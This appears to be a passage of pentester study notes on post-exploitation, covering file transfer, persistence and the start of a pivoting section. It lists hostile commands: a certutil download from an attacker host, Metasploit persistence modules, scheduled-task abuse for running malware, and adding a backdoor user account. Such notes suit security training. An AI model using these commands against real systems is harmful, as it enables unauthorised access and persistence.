 ```yaml
---
description: You landed yourself on a box, now what?
---
```


# Post Exploitation

## File Transfers Review

### Certutil (Windows)

<mark style="color:yellow;">`certutil.exe -urlcache -f http://kali_ip/file.txt file.txt`</mark>

### HTTP Server

<mark style="color:yellow;">`python3 -m http.server <port>`</mark>

### Browser

* Navigate directly to the file

### FTP

Kali: <mark style="color:yellow;">`python -m pyftpdlib 21`</mark>

Windows or Linux: <mark style="color:yellow;">`ftp kali_ip`</mark>

### Additional Linux Exclusives

* Upon hosting an HTTP server, an attacker could utilize <mark style="color:yellow;">`wget`</mark> and <mark style="color:yellow;">`curl`</mark> to remotely grab a file

## Maintaining Access

### Persistence Scripts

* Run persistence -h
* <mark style="color:yellow;">exploit/windows/local/persistence</mark>
* <mark style="color:yellow;">exploit/windows/local/registry\_persistence</mark>

These Metasploit scripts are very dangerous as they tend to open up ports.&#x20;

Simply remember that open ports have no authentication mechanism.

### Scheduled Tasks

* Run scheduleme
* Run schtaskabuse

Instead consider running malware on by scheduling tasks.

### Add a user

* <mark style="color:yellow;">`net user hacker password123 /add`</mark>

## Pivoting

Scenario:

Windows client is on network A-
